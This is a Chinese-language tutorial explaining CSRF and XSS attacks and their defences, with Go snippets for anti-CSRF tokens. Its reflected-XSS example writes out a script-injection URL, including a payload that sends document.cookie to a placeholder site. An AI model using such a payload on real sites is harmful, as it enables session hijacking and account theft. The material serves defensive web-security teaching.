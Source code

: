 # WEB安全

## CSRF(Cross-site request forgery)

中文名称：跨站请求伪造。
攻击方式：攻击者可以盗用你的登录信息，以你的身份模拟发送各种请求。
例子：当用户登录网络银行去查询存款余额的时候，还没有退出的时候，就点击了QQ发来的消息，那么该用于账户中的资金就有可能转移到攻击者指定的账户中。

## CSRF原理

原理图如下：
![](https://raw.githubusercontent.com/astaxie/build-web-application-with-golang/master/zh/images/9.1.csrf.png)
从可以看出，要完成一次`CSRF`攻击，受害者必须完成下面的两个步骤：
1. 登录信任的网站A,并且在本地产生cookie
2. 在不退出A的情况下，访问危险网站B

`CSRF`主要是因为WEB隐式身份验证机制，WEB身份验证机制虽然可以保证一个请求是来自某个用户的浏览器，但是不能保证这个请求是用户批准发出的。

## CSRF的防范

### 在服务端

1. 正确使用`GET`,`POST`和`COOKIE`
2. 在非`GET`请求中添加伪随机数

- 在使用GET的时候，用作查看，列举，展示等不需要改变资源属性的时候
- POST常用于下达订单，改变资源属性或者下达一些其他的命令 

我们限制修改只能使用`POST`，当GET方式请求的时候就拒绝访问，所以上图中的GET方式就可以避免了。
但是`POST`的方式也是可以模拟的,因此我们还要使用第二个步骤，给非GET请求添加伪随机数。
非GET请求中添加伪随机数一般有下面三个方式：
1. 为每一用户生成唯一的`cookie token`,所有的表单都包含同一个伪随机数。因为攻击者理论上是不能获得用户的`cookie`的,所以表单的数据也就构造失败了。但是`XSS`是可以获得用户的`cookie`的
2. 每个请求输入验证码，这种方式是最完美，但是用户的体验是最差的
3. 不同的表单包含不同的伪随机值(可以通过MD5(时间戳)去生成,然后保存在服务器的session中，刷新就会改变)，服务端进行验证。
生成随机数`token`:
```javascript
h := md5.New()
io.WriteString(h, strconv.FormatInt(crutime, 10))
io.WriteString(h, "ganraomaxxxxxxxxx")
token := fmt.Sprintf("%x", h.Sum(nil))

t, _ := template.ParseFiles("login.gtpl")
t.Execute(w, token)
```	
输出`token`：
```HTML
<input type="hidden" name="token" value="{{.}}">
```
验证`token`:
```node
r.ParseForm()
token := r.Form.Get("token")
if token != "" {
	//验证token的合法性
} else {
	//不存在token报错
}
```

## XSS(Cross-Site Scripting)

允许攻击者将恶意代码植入到提供给其他用户使用的页面中。
XSS的攻击目标是为了盗取存储在用户端的`cookie`和或者其他网站用于识别客户端身份的敏感信息。一旦获取到合法用户的信息后，攻击者甚至可以假冒合法用户与网站进行交互。

XSS通常可以分为下面两种：
1. 存储型XSS：主要出现在让用户进行输入的地方，包括留言，评论或者博客日志和各类表单等。应用程序从数据库中查询书数据，在页面中显示出来，攻击者在相应的页面输入恶意的脚本数据后，用户浏览此类页面就会收到攻击。流程可以描述为：恶意用户的HTML输入 -> 进入数据库 -> WEB页面进行显示 -> 用户浏览器(操作收到攻击)
2. 反射性XSS：将脚本代码加入URL地址的参数中，请求参数进入程序后在页面中直接输出，用户点击恶意的网站就可能收到攻击

XSS现在主要的手段和目的如下：
1. 盗用cookie，获取敏感信息
2. 利用`iframe`,`frame`,`XMLHTTPRequest`或者`FLASH`方式，以(被攻击者)用户的身份执行一些管理动作
3. 利用可被攻击的域收到其他域信任的特点，以受信任来源的身份请求一些平时不允许的操作，如：不正当的投票

### XSS原理

Web应用未对用户提交请求的数据做充分的检查过滤，允许用户在提交的数据中掺入HTML代码(最主要的是“>”、“<”)，并将未经转义的恶意代码输出到第三方用户的浏览器解释执行，是导致XSS漏洞的产生原因。
接下来以反射性XSS举例说明XSS的过程：现在有一个网站，根据参数输出用户的名称，例如访问url：http://127.0.0.1/?name=astaxie，就会在浏览器输出如下信息：
```java
hello astaxie
```
如果我们传递这样的url：`http://127.0.0.1/?name=&#60;script&#62;alert(&#39;astaxie,xss&#39;)&#60;/script&#62;`,这时你就会发现浏览器跳出一个弹出框，这说明站点已经存在了XSS漏洞。那么恶意用户是如何盗取Cookie的呢？与上类似，如下这样的url：`http://127.0.0.1/?name=&#60;script&#62;document.location.href='http://www.xxx.com/cookie?'+document.cookie&#60;/script&#62;`，这样就可以把当前的cookie发送到指定的站点

### XSS的防范
答案很简单，坚决不要相信用户的任何输入，并过滤掉输入中的所有特殊字符。这样就能消灭绝大部分的XSS攻击。
目前防御XSS主要有如下几种方式：
1. 过滤特殊字符 使用文本传输(`text/template`)
2. 使用HTTP头指定类型 `w.Header().Set("Content-Type","text/javascript")`(这样就可以让浏览器解析javascript代码，而不会是html输出。)

